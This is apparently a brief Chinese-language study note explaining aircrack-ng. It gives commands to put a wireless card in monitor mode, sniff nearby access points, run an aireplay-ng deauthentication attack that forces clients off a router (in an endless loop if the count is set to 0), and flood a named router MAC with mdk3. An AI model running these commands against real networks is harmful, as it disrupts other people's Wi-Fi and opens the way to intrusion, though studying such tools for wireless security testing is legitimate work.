 ```yaml
---
title: aircrack-ng使用简述
date: '2019-07-26 14:31:24'
modified: '2019-07-26 14:31:24'
category: 学习笔记
tags: []
---
```


## 1. 查看网卡
```
ifconfig
```
## 2. 打开网卡混杂模式
```
airmon-ng start wlan0
```
## 3. 嗅探附近AP
```
airodump-ng wlan0mon
```
## 4. 发动deauth攻击使目标重连
```
aireplay-ng -0 [攻击数量] –a [路由器MAC] -c [客户端MAC] wlan0mon
```
1. 攻击数量设为0为无限循环模式
2. 路口器MAC地址为必填项
3. 客户端MAC，可不填则对路由器所有的客户端进行攻击
## 5. 对路由器Dos攻击
```
sudo mdk3 mon0 a -a D4:83:04:9F:37:28
```
